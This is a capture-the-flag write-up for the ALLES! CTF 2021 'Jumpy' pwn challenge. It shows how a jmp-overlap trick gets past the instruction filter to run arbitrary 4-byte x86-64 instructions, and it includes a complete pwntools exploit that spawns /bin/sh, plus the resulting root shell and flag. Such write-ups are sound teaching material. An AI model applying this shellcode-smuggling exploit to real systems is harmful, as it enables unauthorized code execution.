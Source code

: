 ## Jumpy

> Points: 139
>
> Solves: 82

### Description:
![](./41zPfaL3WFL.jpg)

### Attachments:
```
jumpy  https://static.allesctf.net/ab1671dfdbc9923949d2dbc2bf1ff66006f86bb623cd9b2cbf94ce3f631dfbdd/jumpy
jumpy.c  https://static.allesctf.net/e8f31b0fc631eb709049df0d42491ddca1562a016474c10fdb03cf66f58113c8/jumpy.c
```

## Analysis:

The C language source code is provided below.
https://github.com/mito753/CTF/blob/main/2021/ALLES!_CTF_2021/Pwn_Jumpy/jumpy.c

When we execute the jumpy program, we can see that only 3 instructions can be specified.

supported insns:
- moveax $imm32
- jmp $imm8
- ret
- (EOF)

After the jmp instruction, it is checked if the next instruction is `moveax` or `jmp` or `ret`.

```c
const instruction_t INSNS[3] = {
    {"ret", OP_RET},
    {"jmp", OP_SHORT_JMP},
    {"moveax", OP_MOV_EAX_IMM32},
};

const instruction_t *isns_by_mnemonic(char *mnemonic)
{
    for (int i = 0; i < sizeof(INSNS) / sizeof(INSNS[0]); i++)
        if (!strcmp(mnemonic, INSNS[i].mnemonic))
            return &INSNS[i];
    return NULL;
}
```

## Solution:

Since there is no instruction check after `moveax`, I can execute any 4-byte instructions by made the following instruction sequence.
```
jmp 1
moveax 0xb8
moveax (Arbitrary 4-byte instructions)
```
```
             mov eax
          +-----------+
          |           |        
eb 01 b8 b8 00 00 00 b8 xx xx xx xx
|         ^
|         |
+---------+
   jmp 1

```

Since "/bin/sh" has 4 bytes or more and the mmap area (0x1337000000) cannot be written, the character string of "/bin/sh" was made on the stack.
```
mov bx, 0x68
shl rbx, 16
mov bx, 0x732f
shl rbx, 16
mov bx, 0x6e69
shl rbx, 16
mov bx, 0x622f
push rbx; mov rdi, rsp
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './jumpy'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = process("ncat --ssl 7b000000d136daaf77c18b37-jumpy.challenge.master.allesctf.net 31337", shell=True)
else:
  s = process(BINARY)
 
def Set_ins(data):
  s.sendlineafter("> ", "jmp 1")
  s.sendlineafter("> ", "moveax 184")
  s.sendlineafter("> ", "moveax " + str(u32(data)))

# rsi = 0; rdx = 0
Set_ins(asm('''xor rsi, rsi; nop'''))
Set_ins(asm('''push rsi; pop rdx; nop; nop'''))

# make /bin/sh in stack
Set_ins(asm('''mov bx, 0x68'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x732f'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x6e69'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x622f'''))
Set_ins(asm('''push rbx; mov rdi, rsp'''))

# rax = 0x3b
# syscall
Set_ins(asm('''xor rbx, rbx; nop'''))
Set_ins(asm('''add rbx, 0x3b'''))
Set_ins(asm('''push rbx; pop rax; syscall'''))

# Start shell
s.sendlineafter("> ", "a")

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/ALLES!_CTF_2021/Pwn_Jumpy$ python solve.py r
[*] '/home/mito/CTF/ALLES!_CTF_2021/Pwn_Jumpy/jumpy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/bin/sh': pid 62372
[*] Switching to interactive mode

running your code...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls -l
total 92
lrwxrwxrwx   1 root root     7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Apr 15  2020 boot
drwxr-xr-x   5 root root   360 Sep  4 08:08 dev
drwxr-xr-x   1 root root  4096 Sep  4 08:08 etc
-rw-r--r--   1 root root   100 Aug 29 22:12 flag
drwxr-xr-x   2 root root  4096 Apr 15  2020 home
-rwxr-xr-x   1 root root 19768 Aug 29 22:12 jumpy
lrwxrwxrwx   1 root root     7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root  4096 Aug 27 07:16 media
drwxr-xr-x   2 root root  4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root  4096 Aug 27 07:16 opt
dr-xr-xr-x 783 root root     0 Sep  4 08:08 proc
drwx------   2 root root  4096 Aug 27 07:27 root
drwxr-xr-x   5 root root  4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root     8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root     0 Sep  4 08:08 sys
drwxrwxrwt   2 root root  4096 Aug 27 07:27 tmp
drwxr-xr-x  13 root root  4096 Aug 27 07:16 usr
drwxr-xr-x  11 root root  4096 Aug 27 07:27 var
-rwxr-xr-x   1 root root 18744 Aug 29 22:12 ynetd
$ cat flag
ALLES!{people have probably done this before but my google foo is weak. segmented shellcode maybe?}
```
